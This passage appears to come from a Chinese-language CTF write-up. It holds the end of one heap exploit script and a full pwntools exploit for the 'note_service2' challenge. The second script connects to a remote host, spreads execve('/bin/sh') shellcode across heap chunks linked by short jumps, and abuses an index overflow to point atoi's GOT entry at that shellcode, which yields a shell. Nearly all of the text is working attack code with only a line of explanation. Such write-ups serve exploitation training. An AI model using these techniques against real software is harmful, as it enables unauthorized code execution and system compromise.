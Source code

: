 ```python
delete(1)
add(7,p64(buf-0x20))
add(8,'bbbb')
add(9,'cccc')
write_buf(payload4)
add(10,payload5)
exit()

io.interactive()
```

# note_service2(jmp short + shellcode)

[note_service2](/assets/binary/%E5%88%B7%E9%A2%982/note-service2.zip)

通过jmp short在间断的chunk上执行shellcode，通过下标溢出修改got表为chunk的地址

```python
from pwn import *

io = remote("220.249.52.133",43107)
elf = ELF('./note-service2')
context.log_level = 'debug'
context.os = 'linux'
context.arch = 'amd64'

def add(idc,content):
    io.recvuntil('choice>> ')
    io.sendline('1')
    io.recvuntil('index:')
    io.sendline(str(idc))
    io.recvuntil('size:')
    io.sendline('8')
    io.recvuntil('content:')
    jmp = '\xeb\x19' # jmp short 0x19
    io.send(content.ljust(5,asm('nop'))+jmp)
def delete(idc):
    io.recvuntil('choice>> ')
    io.sendline('4')
    io.recvuntil('index:')
    io.sendline(str(idc))

shellcode = shellcraft.sh()
print shellcode
payload = ['xor rax,rax','xor rsi,rsi','xor edx,edx','mov eax,0x3b','syscall'] # call system after rdi saved '/bin/sh'
hacked_index = (0x202060-0x2020a0)//8 # offset of got[atoi]

add(0,'a'*5)
add(1,asm(payload[0]))
add(2,asm(payload[1]))
add(3,asm(payload[2]))
add(4,asm(payload[3]))
add(5,asm(payload[4]))

delete(0)
add(hacked_index,'') # hack atoi point to our shellcode chunk
io.interactive()
```
